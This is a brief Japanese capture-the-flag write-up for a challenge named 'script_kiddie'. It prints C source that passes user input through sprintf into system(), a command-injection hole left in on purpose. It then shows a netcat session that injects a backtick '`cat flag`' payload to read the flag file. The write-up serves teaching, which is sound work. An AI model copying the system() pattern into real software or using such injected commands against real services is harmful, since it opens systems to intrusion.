 # script_kiddie

以下のソースコードより`echo`コマンドによってファイルの中身を出力すれば良いと判断した．`flag`ファイルにFLAGがあると判断して，catコマンドを使いました．

```C
echo cat flag
```

```C
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

// バッファリングを無効化して時間制限を60秒に設定
__attribute__((constructor)) void setup() {
  alarm(60);
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
}

void show_flag() {
  char flag_name[0x10] = {};
  printf("Which flag do you want?");
  read(0, flag_name, 0x10);

  char cmd[0x20];
  sprintf(cmd, "echo %s", flag_name);

  // show FLAG
  system(cmd);
}

int main() { show_flag(); }
```


```bash
$ nc 
Which flag do you want?./*
./flag ./script_kiddie ./start.sh
$ nc 
Which flag do you want?`cat flag`
taskctf{n0w_y0u_g0t_shell}
```

```bash
taskctf{n0w_y0u_g0t_shell}
```
